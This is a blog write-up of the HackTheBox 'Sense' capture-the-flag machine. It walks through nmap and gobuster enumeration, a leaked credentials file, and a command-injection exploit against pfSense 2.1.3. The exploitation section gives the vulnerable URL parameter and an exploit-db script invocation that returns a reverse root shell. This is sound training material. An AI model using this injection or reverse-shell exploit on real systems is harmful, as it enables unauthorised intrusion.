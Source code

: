 ```yaml
---
layout: post
title: "HackTheBox - Sense writeup"
subtitle: "~ Walkthrough of Sense machine from HackTheBox ~"
date: 2018-03-XX
author: V3ded
category: CTF
tags: blog ctf pentesting hackthebox
finished: true
---
```


# Introduction
<img src="/img/blog/htb-sense/htb-sense-01.png">

Sense! An easy rated machine which can be both simple and hard at the same time. Enumeration is a heavy factor in this box, so make sure you don't overlook anything! Missing one simple detail might result into countless hours of wasteful searching and mashing of the keyboard :). Without further ado, let's get right into it!

# Scanning  
Start out by obtaining the IP (**10.10.10.60**) of the Sense machine and nmap it.

```console
root@EdgeOfNight:~# nmap -sS -T4 -A 10.10.10.60 

Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-25 05:02 CDT
Nmap scan report for 10.10.10.60
Host is up (0.13s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (92%), OpenBSD 4.X (89%)
OS CPE: cpe:/o:openbsd:openbsd:4.0
Aggressive OS guesses: Comau C4G robot control unit (92%), OpenBSD 4.0 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   169.61 ms 10.10.14.1
2   169.63 ms 10.10.10.60

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.61 seconds

```

The scan yields 2 open ports (**HTTP** on port 80, **HTTPS** on 443) and deducts that the scanned "device" is either a *Comau embedded system* or *OpenBSD*. From this information we can make multiple guesses about the OS - `FreeBSD, NetBSD, Solaris` and so on.

***

# Enumeration

Visiting *10.10.10.60* in our browser redirects us to the the HTTPS version of the website and shows that the webpage itself is a login interface to *pfSense*.

<img src="/img/blog/htb-sense/htb-sense-02.png">

*pfSense* is an open source firewall and therefore it's important we are careful during our enumeration. If we do anything which is very suspicious (bruteforce attack the login *cough cough*), the firewall might block us and render our future attempts useless.

Choosing the standard enumeration approach after trying default pfSense login credentials, I start out with gobuster. Main goal is to find hidden directories.

```console
root@EdgeOfNight:~# gobuster -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.60/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
https://10.10.10.60/themes (Status: 301)
https://10.10.10.60/css (Status: 301)
https://10.10.10.60/includes (Status: 301)
https://10.10.10.60/javascript (Status: 301)
https://10.10.10.60/classes (Status: 301)
...[MORE OUTPUT REDACTED]...
```

Took some time to inspect all of the directories to no avail. They are either *404* or redirect back to the login page. In my second attempt I do gobuster once again. However, this time I use `-x` option to look for specific file extensions as well. Extensions such as `.php, .txt, .sh, .bak` are always good choices. Lazy sysadmins often leave files laying around. What a shame, right?

root@EdgeOfNight:~/Desktop/Writeups/Sense# gobuster -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -x txt

```console
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.60/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : .txt
[+] Expanded     : true
=====================================================
https://10.10.10.60/themes (Status: 301)
...
...
https://10.10.10.60/changelog.txt (Status: 200)
...
https://10.10.10.60/system-users.txt (Status: 200)
...
...
```console

> Note: A lot of useless directories were redacted for easier readability 
As you can see now, we get 2 new options - **changelog.txt** and **system-users.txt**. Let's check them out.

*changelog.txt*:
<img src="/img/blog/htb-sense/htb-sense-03.png">

Good news in this one! It mentions that 2 out of 3 vulnerabilities have been patched. That means that 1 vulnerability can still be exploited! Moving on...

*system-users.txt*:
<img src="/img/blog/htb-sense/htb-sense-04.png">

```
username: Rohit
password: company defaults
```

Look at that. Wonderful! We successfully obtained rohit's credentials. Use them to login to *pfSense* - `rohit:pfsense`.
> Note: Make sure you type *rohit* with all lowercase letters. pfSense has case sensitive login mechanism even for usernames.

pfSense dashboard:   
<img src="/img/blog/htb-sense/htb-sense-05.png">

A lot of information pops out on the screen. The most important one is the version.
```
Version 	2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
Unable to check for updates.
```

Knowing the version (**2.1.3**), we can openly search for vulnerabilities. By doing some simple google searching, I was able to find that this particular version is vulnerable to a remote command execution exploit. You can read more about it [here](https://packetstormsecurity.com/files/145575/pfSense-2.1.3-RELEASE-amd64-Remote-Command-Execution.html). 

***

# Exploitation
There are multiple approaches for exploiting this machine. Let's go through them one by one.

## Manual
The report discloses that database GET parameter is vulnerable to an injection. Therefore `https://10.10.10.60/status_rrd_graph_img.php?&database=queues;<INJECTION>` will allow us to run any command on the system. There's one problem though. There is no way of seeing stdout! Simple fix can achievied by piping every injection through netcat and then listening for the server's reply on our machine.

<img src="/img/blog/htb-sense/htb-sense-06.png">

Ippsec does a lot better & more detailed job of explaining this than I ever could, so props to him. He goes over multiple important things such as evading bad characters and pivoting through another machine in case pfSense blocks you. I highly advise you watch his [video](https://www.youtube.com/watch?v=d2nVDoVr0jE)! The injection part starts at around **17:30**.

## Using exploitdb python script
The script can be located [here](https://www.exploit-db.com/exploits/43560/).
```console
usage: exploit.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT]
                  [--username USERNAME] [--password PASSWORD]
```

And therefore running `python3 exploit.py --rhost 10.10.10.60 --lhost 10.10.14.73 --lport 1234 --username rohit --password pfsense` should return us a root shell!

<img src="/img/blog/htb-sense/htb-sense-07.png">

> Note: Make sure you use python3, not python2!

## Using Metasploit
As it appears, there is also a metasploit module which simplifies everything we've done so far. The [exploit](https://www.rapid7.com/db/modules/exploit/unix/http/pfsense_graph_injection_exec) is very simple and all that's required is setting up lhost and lport. You know the drill.

<img src="/img/blog/htb-sense/htb-sense-09.png">

***
## No matter which option you go with. A root shell will be your reward nontheless! Congratulations!
***

## Conclusion
A pretty simple but amazing box. I really liked the authenticity of this one. This exploitation was "real life" like and therefore I consider it as a perfect practice for anyone who wants to improve in this field!

~V3
